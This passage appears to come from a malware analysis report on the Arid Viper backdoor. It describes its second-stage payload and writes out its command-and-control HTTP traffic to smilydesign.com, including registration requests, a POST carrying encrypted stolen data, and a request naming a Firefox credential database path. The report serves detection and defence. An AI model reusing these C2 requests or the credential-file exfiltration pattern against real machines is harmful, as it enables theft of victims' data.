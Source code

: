 Figure 2: Malware file details showing compile date
The Trojan continues to exhibit its behavior of downloading an update following the first C2 communication, and in this case Proofpoint researchers succeeded in patching the initial malware to obtain the second stage malware payload (3a401a679d147b070eb8ccae5df3dc43), which allowed us to observe more activities.
Previously described as the Operation Arid Viper backdoor, the second stage payload was observed in traffic to be obfuscated with standard base64-encoding. The second-stage backdoor has a compile date prior to the first stage malware by nearly a day. (Fig. 3)

Figure 3: Malware file details showing compile date
During the infection process, the Arid Viper malware makes multiple HTTP GET requests to register the client with the server and check for updates:

GET /designs/new_user.php?s1=[---UID---]&s2=8 HTTP/1.1 àcall PHP script to login / register the infected machine

GET /designs/is_ok.php?s1=[---UID---] HTTP/1.1 à call PHP script to perform a user check on the server side (server responds with “OK”)

GET /designs/add_recoord.php?s1=[---UID---]&s2=8&s3=2[---Date---]&s4=msn à call PHP script to add a record to the server

GET /designs/get_t.php?s1=[---UID---]&s2=[---Date---]

GET /designs/add_t.php?s1=[---UID---]&s2=[---Date---]

GET /designs/get_r.php?s1=[---UID---]
In addition, the backdoor POSTs data back to the server:

POST /designs/drive_update.php HTTP/1.1 à encrypted data wrapped in a custom base64 encoding is sent via HTTP POST to the C2 server

User-Agent: Realtek

Content-Type: application/x-www-form-urlencoded

Host: smilydesign [.] com

Content-Length: 978

Pragma: no-cache
The Arid Viper backdoor also sends GETs to confirm the existence of interesting data / files, with the path and filenames included in the request. The following exchanges show the GET request (with filename and path in bold), and C2 server response (i.e., “OK”):

GET /designs/send_request_r_data.php?s1=[redacted]&path=C:/Users/COMPUTER/AppData/Roaming/Mozilla/Firefox/Profiles/[redacted]..default/key3.db HTTP/1.1

Accept: text/*

User-Agent: Realtek

Accept-Language: en-us

Content-Type: application/x-www-form-urlencoded

Host: smilydesign.com

Cache-Control: no-cache

